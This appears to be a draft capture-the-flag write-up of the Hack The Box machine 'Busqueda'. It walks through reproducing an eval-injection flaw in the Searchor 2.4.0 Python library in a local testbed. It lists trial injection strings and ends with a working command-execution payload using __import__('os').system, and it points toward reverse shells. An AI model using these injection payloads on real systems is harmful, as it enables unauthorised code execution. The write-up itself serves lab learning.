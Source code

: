 Title: HTB Machine Busqueda
Date: 2023-05-11 22:00
Category: Linux
Tags: ctf, linux, python, eval
Status: draft

Busqueda is a 2023 machine (don't know exactly) and is in the easy range.

## Init Recon

![picture 1](./images/04ac0f19058874fcb4e8b581c67fc3cdf4752bbf679a5f8f55228d9d049105f4.png)  

It has two ports (22, 80) open. On port 80 is a webapp. We start with that.
Sorry for my version of the web-page might look ugly. I used HTB Pwnbox, and they can't load the js because of no internet.
![picture 2](./images/37178a6082db92266f1de3a13693b0b159e8efbfe5c8665657e1dbb91ed91ca5.png)  

  

By googling for Searchor [this](https://github.com/ArjunSharda/Searchor/commit/29d5b1f28d29d6a282a5e860d456fab2df24a16b) eval problem will show up. I tried to exploit it blind by guessing but I was out of luck. So I will go into building a testbed.

Therefore, we install searchor and just copy the code, but minimize what we probably don't need, so I removed the history part:

```bash
pip install searchor==2.4.0,click
```

```python
import click
from searchor import Engine

def search(engine, query, open, copy):
    try:
        url = eval(
            f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
        )
        url = Engine[engine].search(query, copy_url=copy, open_web=open)
        click.echo(url)
    except AttributeError:
        print("engine not recognized")

search("Google","INJECT-HERE",False,False)
```

now we can just run with different injections

```
' -> SyntaxError: unterminated triple-quoted string literal 
')#             -> no error
');#            -> invalid syntax <-> ; is not allowed
')print("hi")#  -> the double-quote breaks the search function call
')print('hi')#  -> invalid syntax <-> probably because two connected commands
'),print('hi')# -> works!!!
```

![picture 3](./images/951d2ae424d35221ae7d9fa0a8a8852496a42404d0440ff4e0d07b37842e1399.png)  

Just to see how that can be, I verified that in python directly, seems function calls can be seperated with a colon:
![picture 4](./images/7541f719e1803d0038a0fe81f93cdec7e4841b7bad72e8fc7b9f2245eb6be845.png)  

So the two main things I recognize that did not work with random rev shells from the web are double quotes and semicolon. For most functionality we want to have we will need to be able to import in python. Since we will work with one line of code, normaly imports would be seperated with semicolon still.

The reason is probably that there can not be confusion between a function call and importing, like so:

```python
import os, socket, os.system("hi")
```
Therefore we need a way to get to this functionality.

By looking at the rev shells [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python), we can see that an import can be done like:

```python
os=__import__("os");...;os.dub2(...)
```

Now think about it, this will put the import in the variable and later work on it. Meaning we can just shorten this code to:

```python
__import__("os").dub2(...)
```

Therefore a way of executing code should be possible with

```python
__import__('os').system('whoami')
```

Testing shows it works:
 
![picture 6](./images/a7b4ddb8a7dbf053aaf97fbc062a997bd95a596f63db2fbf92e2c4b9304c69fd.png)  

